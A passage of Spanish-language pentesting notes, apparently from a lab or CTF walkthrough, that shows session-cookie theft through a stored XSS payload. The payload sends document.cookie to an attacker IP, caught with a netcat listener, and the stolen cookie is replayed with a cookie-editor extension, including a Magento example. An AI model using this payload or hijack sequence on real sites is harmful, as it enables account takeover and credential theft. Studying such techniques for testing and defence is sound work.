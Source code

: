 Por tanto en este punto, podríamos intentar hacer un robo de cookies, por lo que crearemos otra nota poniendo una dirección URL en la cual el usuario víctima deberá hacer click; y ahí habremos obtenido su cookie de sesión.
Lo guardamos y veremos que hay un intento de imagen cargada en la web, pero que no llega a cargar:
```
<script>img = new Image(); img.src = "http://10.10.16.10/a.php?"+document.cookie;</script>
```

![[Pasted image 20240613001219.png]]

Lo guardamos y nos pondremos en escucha con netcat por el puerto 80 para recibir esa cookie de sesión:
![[Pasted image 20240613001224.png]]

Ahora que ya tenemos la cookie de sesión, sólo tenemos que importarla dentro de nuestro navegador y ya podremos entrar en el panel de login sin proporcionar contraseña, por lo que necesitaremos una extensión del navegador que se llama cookie editor:
![[Pasted image 20240613001229.png]]

La instalamos:
![[Pasted image 20240613001234.png]]

Y ahora en la web y utilizando esta extensión, pondremos la cookie que hemos capturado:
![[Pasted image 20240613001238.png]]

Guardamos y recargamos la página y hemos iniciado sesión:
![[Pasted image 20240613001242.png]]

# EJEMPLO 2
Veremos un ejemplo de haber conseguido una cookie de sesión [[Hacking Magento]]
![[Pasted image 20240613001248.png]]

Y desde la extensión cookie editor tenemos este campo donde podemos poner una cookie de sesión:
![[Pasted image 20240613001253.png]]

Le ponemos la nueva cookie que hayamos capturado:
![[Pasted image 20240613001257.png]]

Recargamos la página y ya estamos dentro:

![[Pasted image 20240613001301.png]]